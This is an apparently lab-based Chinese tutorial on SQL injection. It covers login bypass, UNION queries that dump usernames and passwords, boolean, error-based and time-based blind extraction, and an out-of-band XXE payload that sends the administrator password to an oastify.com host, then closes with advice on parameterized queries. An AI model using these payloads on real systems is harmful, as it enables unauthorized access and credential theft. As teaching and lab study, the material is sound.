


 

## 什么是 SQL 注入

SQL 注入 (SQLi)  是一种网络安全漏洞，攻击者可以利用该漏洞干扰应用程序对其数据库的查询。这可以让攻击者查看他们通常无法检索的数据。这可能包括属于其他用户的数据，或应用程序可以访问的任何其他数据。在许多情况下，攻击者可以修改或删除这些数据，从而导致应用程序的内容或行为发生持久更改。

**白话就是：当应用向后台发送数据时,没有经过严格过滤，将传入的数据当成了sql语句进行执行，导致了sql注入。**

在某些情况下，攻击者可以升级 SQL 注入攻击，从而危害底层服务器或其他后端基础设施。它还可以使他们执行拒绝服务攻击。

## SQL 注入的危害

成功的 SQL 注入攻击可能导致未经授权访问敏感数据，例如：

- 密码
- 个人用户信息

多年来，SQL 注入攻击已在许多备受瞩目的数据泄露事件中被利用。这些事件造成了声誉损害和监管罚款。在某些情况下，攻击者可以获取组织系统中的持久后门，从而造成长期入侵，并且可能在很长一段时间内都无法察觉。

## 检测 SQL 注入

正常的后端SQL语句

```sql
select * from user1 where username='用户名' and password='密码'
```

输入`'=' `此时语句为如下,用户名 空等于空，密码空等于空，条件成立登录成功

```sql
select * from user1 where username=''='' and password=''=''
```

正常的万能密码传入`' or '1'='1` 时语句如下，or是或，其中一个条件满足即可

```sql
select * from user1 where username='' or '1'='1' and password='' or '1'='1'
```


- 单引号找页面异常报错
- 布尔条件，如：`or 1=1`,`or 1=2`，查看响应的不同
- 时间延迟，如`sleep(3)`，查看响应时间的不同
- SQL 查询中执行时触发带外网络交互

## 不同部分的 SQL 注入

大多数 SQL 注入漏洞都发生在 `SELECT` 查询的 `WHERE` 子句中，如：

```sql
select * from users where id = ''
```

然而，SQL 注入漏洞可能发生在查询中的任何位置，并且可能发生在不同的查询类型中。

其他一些常见的 SQL 注入位置包括：

- 在 `UPDATE` 语句中，在更新的值或 `WHERE` 子句内
- 在 `INSERT` 语句中，在插入的值内
- 在 `SELECT` 语句中，在表或列名称内
- 在 `SELECT` 语句中，在 `ORDER BY` 子句内

## SQL 注入示例

**WHERE子句中的SQL注入漏洞允许检索隐藏数据**

后端语句

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

要解决实验室问题，请执行SQL注入攻击，导致应用程序显示一个或多个未发布的产品

```
filter?category=Accessories'or 1=1--+
```

对`category`参数，构造闭合，绕过`released`参数的限制

```
SELECT * FROM products WHERE category = 'Accessories'or 1=1--+' AND released = 1
```


### 允许绕过登录的SQL注入漏洞

> 本实验包含登录函数中的SQL注入漏洞
>
> 要解决实验室问题，请执行SQL注入攻击，以管理员用户身份登录到应用程序

登录后台的 SQL 逻辑

```
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

在这种情况下，攻击者可以以任何用户身份登录，而无需密码。他们可以使用 SQL 注释序列来执行此作 `--` 从查询的 `WHERE` 子句中删除密码检查。例如，提交用户名 `administrator'--` 和任意密码将导致以下查询：

```
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

此查询返回`用户名为 ` `administrator` 的用户，并成功以该用户身份登录


### 联合注入

如果应用程序使用 SQL 查询的结果进行响应，攻击者可以使用 SQL 注入漏洞从数据库中的其他表中检索数据。您可以使用 `UNION` 关键字执行其他 `SELECT` 查询，并将结果附加到原始查询中。

```
' UNION SELECT username, password FROM users--
```

这会导致应用程序返回所有用户名和密码以及产品的名称和描述。

`使用 UNION` 关键字，您可以执行一个或多个其他 `SELECT` 查询，并将结果附加到原始查询中。例如：

```
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

此 SQL 查询返回一个包含两列的结果集，其中包含 `table1` 中列 `a` 和 `b` 以及 `table2` 中列 `c` 和 `d` 的值。


使用`UNION`的条件：

- 知道数据库的列数

- 各个查询必须返回相同数量的列
- 每列中的数据类型必须在各个查询之间兼容

#### 判断列数

一种方法涉及注入一系列 `ORDER BY` 子句并递增指定的列索引，直到发生错误。例如，如果注入点是原始查询的 `WHERE` 子句中的带引号的字符串

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

根据数据库报错，也可能是错误响应，只要可以检测到响应中的一些差异，就可以推断出查询返回了多少列

提交一系列 `UNION SELECT` payload，这些有效负载指定不同数量的 null 值：

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

我们使用 `NULL` 作为从注入的 `SELECT` 查询返回的值，因为每列中的数据类型必须在原始查询和注入的查询之间兼容。`NULL` 可转换为每种常见数据类型，因此当列计数正确时，它可以最大程度地提高`payload`成功的机会。

例子：


#### 查找具有有用数据类型的列

联合注入要检索的数据通常为字符串形式，这意味着需要在原始查询结果中找到**其数据类型为字符串数据或与字符串数据兼容的一列或多列**

确定所需列数后，测试每个列是否可以保存字符串数据。提交一系列 `UNION SELECT` 负载，这些负载依次将字符串值放入每列中。例如：

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

如果 column 数据类型与字符串数据不兼容，则注入的查询会导致数据库错误，例如：

```
Conversion failed when converting the varchar value 'a' to data type int.
```

例子：

```
'union select null,'SobYzW','3'--
```


#### 检索单个列中的多个值

在此单个列中一起检索多个值，可以包含一个分隔符，以便区分组合值。例如，在 Oracle 上，可以提交以下输入：

```
' UNION SELECT username || '~' || password FROM users--
```

这使用双管道序列 `||`，它是 Oracle 上的字符串串联运算符。注入的查询将 `username` 和 `password` 字段的值连接在一起，以 `~` 字符分隔。

```
administrator~s3cure
wiener~peter
carlos~montoya
```

不同的数据库使用不同的语法来执行字符串连接

例子：

```
' union select '1',username||':'||password from Users--+
```


#### 注入示例

**SQL 注入攻击，查询 Oracle 上的数据库类型和版本**

判断列数

```
Accessories' order by 2--
```

回显正常


数据库为`Oracle `

在 Oracle 数据库上，每个 `SELECT` 语句都必须指定一个表 SELECT `FROM`。如果 `UNION SELECT` 攻击不从表中查询，仍然需要包含 `FROM` 关键字，后跟一个有效的表名。Oracle 上有一个名为 `dual` 的内置表

```
filter?category='+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

选择 `v$version` 视图中的 `BANNER` 列，通常该列包含数据库版本信息


**SQL注入攻击，查询MySQL的数据库类型和版本**

```
'union select null,version()--+
' UNION SELECT @@version, NULL--+
```



**查询数据库中的内容**

大多数数据库类型（Oracle 除外）都有一组称为信息架构（`information_schema`）的视图。这提供了有关数据库的信息。

包括的数据库：`Mysql，Mssql，PostgreSQL`

例如，可以查询 `information_schema.tables` 来列出数据库中的表

```
SELECT * FROM information_schema.tables
```

`Mysql`下


`Mssql`


然后，可以查询 `information_schema.columns` 以列出各个表中的列

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

输出了`column_name`


只查询列名

`Mysql，mssql`相同

```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'users'
```


**列出非Oracle数据库上的数据库内容**

```
' union select version(),null-- 
```


判断为`PostgreSQL`

```
'+union+select+table_name,null+from+information_schema.tables--+
```

```
'+union+select+column_name,null+from+information_schema.columns+where+table_name='users_ivcwxi'--+
```


```
' union select username_bedrkp,password_pkrlwk from users_ivcwxi--+
```


```
administrator:4udhtsyhp34wa4w9lex7
```

登录`administrator`用户，完成挑战


**列出Oracle数据库的内容**

```sql
'union select table_name,null from all_tables--+
```


```sql
' union select column_name,null from all_tab_columns where table_name='USERS_HQYEIS'--+
```


```
' union select USERNAME_MBITOE,PASSWORD_LVJMUO from USERS_HQYEIS--+
```



```
administrator
6sgr8b2xbel1jmpx6avk
```

### 盲注

当应用程序容易受到 SQL 注入的攻击，但其 HTTP 响应不包含相关 **SQL 查询的结果**或任何**数据库错误**的详细信息时，就会发生 SQL 盲注

#### 布尔盲注

##### 通过触发条件响应

假设发送了两个请求，如下：

**简单来说：就是存在两个不同的页面或响应，通过布尔表达式来判断是否为true**

```
xyz' AND '1'='1
xyz' AND '1'='2
```

因为注入的 `AND '1'='1` 条件为 true。因此，将**会显示**`welcome back`信息

`AND '1'='2`条件为false，所以**不会显示出**`welcome back`信息

其实，这里利用页面返回信息不同，确定任何单个注入条件的答案，并一次提取一个数据

例如，假设有一个名为 `Users` 的表，其中包含 `Username` 和 `Password` 列，以及一个名为 `Administrator` 的用户

```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

这将返回 `Welcome back` 消息，指示注入的条件为 true，因此密码的第一个字符大于 `m`

再次输入

```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```

未返回 `Welcome back` 消息，条件为false，所以密码的第一个字母不大于`t`

最后输入

```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```

返回 `Welcome back` 消息，条件为true，密码的第一个字母为`s`

**题目：利用布尔盲注，找出管理员的密码**

正常页面，返回 `Welcome back` 消息


添加单引号，`weblcome back`消失，因为不存在当前的`TrackingId`值


成功闭合

```
Cookie: TrackingId=9qrmTSCzPnnQngsd'--+; session=k64QFjh9zhutTKnZFfsRO7oEpasxySSH
```

判断是否存在`users`表，这个查询会从 `users` 表中选取第一行，返回一个固定的值 `'a'`，如果是不存在的表，注入条件为false

```
TrackingId=9qrmTSCzPnnQngsd' and (select 'a' from users limit 1)='a;
```

`limit 1`是取第一行

`users1`表不存在


判断是否存在`administrator`用户

```
TrackingId=9qrmTSCzPnnQngsd' and (select 'a' from users where username='administrator')='a
```


判断密码长度,为20位

```
TrackingId=9qrmTSCzPnnQngsd' and (select 'a' from users where username='administrator' and length(password)>19)='a

TrackingId=9qrmTSCzPnnQngsd' and (select 'a' from users where username='administrator' and length(password)=20)='a
```


测试每个位置的字符以确定其值

```
TrackingId=9qrmTSCzPnnQngsd' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

使用`Intruder`模块

选择位置和字符，使用Cluster bomb模式


响应长度为`5500`的表示注入成功


把密码整理出来

```
administrator
h184h4vjo6ovq36xdtd4
```


##### 通过触发条件错误

可以使应用程序根据**布尔表达式的结果**，返回特定的**错误响应**

某些应用程序执行 SQL 查询，但无论查询是否返回任何数据，它们的行为都不会改变，因为注入不同的布尔条件对应用程序的响应没有影响

布尔条件结果对响应没有任何影响，需要利用布尔表达式的结果，构造出数据库的错误

假设发送了两个请求，依次包含以下 `TrackingId` Cookie 值：

```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

使用 `CASE` 关键字来测试条件，并根据表达式是否为 true：

- 对于第一个输入，`CASE` 表达式的计算结果为 `'a'`，这不会导致任何错误。
- 对于第二个输入，它的计算结果为 `1/0`，除于0，这会导致数据库报错。

如果错误导致应用程序的 **HTTP 响应**出现差异，可以使用它来确定注入的条件是否为 true

这样就可以通过一次测试一个字符来检索数据

```
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

添加一个单引号，状态码变成500


尝试闭合，输入两个单引号，正常


判断存在sql盲注，此错误试sql语法错误（单引号未闭合）

构造SQL子查询，判断是不是语法错误

```
非Oracle数据库执行
'||(select '')||'
Oracle数据库执行
'||(SELECT '' FROM dual)||'
```


`'||(SELECT '' FROM dual)||'`正常，判断为oracle数据库

查询一个不存在的表，如果报错，则可以确定存在注入

```
'||(SELECT '' FROM not-a-real-table)||'
```

判断存在users表，`WHERE ROWNUM = 1`表示查询一行

```
'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```

构造`case`语句报错

`CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END`

```
'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

   接下来很关键，逻辑比较绕，在SQL语句中以from分隔前后，SQL语句执行顺序是先执行from后面的

```
1. 真 from 真 ==>  真
2. 真 from 假 ==>  真
3. 假 from 真 ==>  假
4. 假 from 假 ==>  真
```

```
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

确认存在名为 `administrator` 的用户


确定 `administrator` 用户的密码中有多少个字符

```
'||(SELECT CASE WHEN LENGTH(password)=20 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```


检索数据

```
'||(SELECT CASE WHEN SUBSTR(password,1,1)='m' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

找到此列中包含 500 的行，该行显示的payload是该位置的字符值


```
administrator
mp09bllhyku73gjprdgx
```

### 报错注入

输入单引号，页面直接回显数据库报错信息


使用cast，强制类型转换

```
' and 1=cast(version() as int)--
```


账号

```
' and 1=cast((select username from users limit 1) as int)--
```


密码

```
' and 1=cast((select password from users limit 1) as int)--
```


### 时间盲注

如果应用程序在执行 SQL 查询时捕获到数据库错误并妥善处理这些错误，则应用程序的响应不会有任何差异

通常可以通过触发时间延迟来利用 SQL 盲注漏洞

`Mssql`

```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

延迟10秒，数据库是PostgreSQL

```
TrackingId=v8MAgnq3ccMWIGUp'||(SELECT pg_sleep(10))--;
```


构造条件延迟

```
'|| (SELECT CASE WHEN (1=1) THEN pg_sleep(3) ELSE pg_sleep(0) END)--
```

判断是否存在`administrator`用户

```
'|| (SELECT CASE WHEN (username='administrator') THEN pg_sleep(3) ELSE pg_sleep(0) END from users)--
```

判断密码长度

```
'|| (SELECT CASE WHEN (username='administrator' and length(password)=20) THEN pg_sleep(3) ELSE pg_sleep(0) END from users)--
```

使用 **Add from list** 下拉列表，添加`[0-9]`，`[a-z]`的payload

进程设置为1， **Response received（已收到响应** ）列。这通常包含一个小数字，表示应用程序响应所花费的毫秒数


这就代表，第一位是`d`


根据响应时间，检索出数据

```
administrator
dyb5ojsteohuiu9qegnp
```

成功登录

### 带外（OAST）注入

应用程序继续在原始线程中处理用户的请求，并使用另一个线程通过跟踪 Cookie 执行 SQL 查询。该查询仍然容易受到 SQL  注入的攻击，但到目前为止描述的任何技术都不起作用。应用程序的响应不依赖于返回任何数据的查询、发生的数据库错误或执行查询所花费的时间。

在这种情况下，通常可以通过触发对您控制的系统的带外网络交互来利用盲目 SQL 注入漏洞。这些可以根据注入的条件触发，以一次推断一个信息。更有用的是，可以直接在网络交互中泄露数据。

SQL备忘录：`https://portswigger.net/web-security/sql-injection/cheat-sheet`

我们需要让数据库对外部域执行 DNS 查找

payload

将 SQL 注入与基本的 XXE 技术相结合

```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//fp8vd7yr1a5t3gpapxw122ejnat1hu5j.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```


**通过带外交互获取数据实现SQL盲注**

将 SQL 注入与基本的 XXE 技术相结合

```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.7u2niz3j62al88u2up1t7ujbs2ytmpae.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```


```
administrator
g9a7pnifzr5usha85v4s
```

## 如何防止 SQL 注入

您可以使用参数化查询而不是查询中的字符串连接来阻止大多数 SQL 注入实例。这些参数化查询也称为 **“预编译语句**”。

要使参数化查询有效防止 SQL  注入，查询中使用的字符串必须始终是**硬编码常量**。它绝不能包含来自任何来源的任何变量数据。不要试图逐个决定数据项是否可信，并继续在查询中使用字符串连接来处理被认为安全的情况。很容易对数据的可能来源犯错误，或者对其他代码的更改造成可信数据的污染。
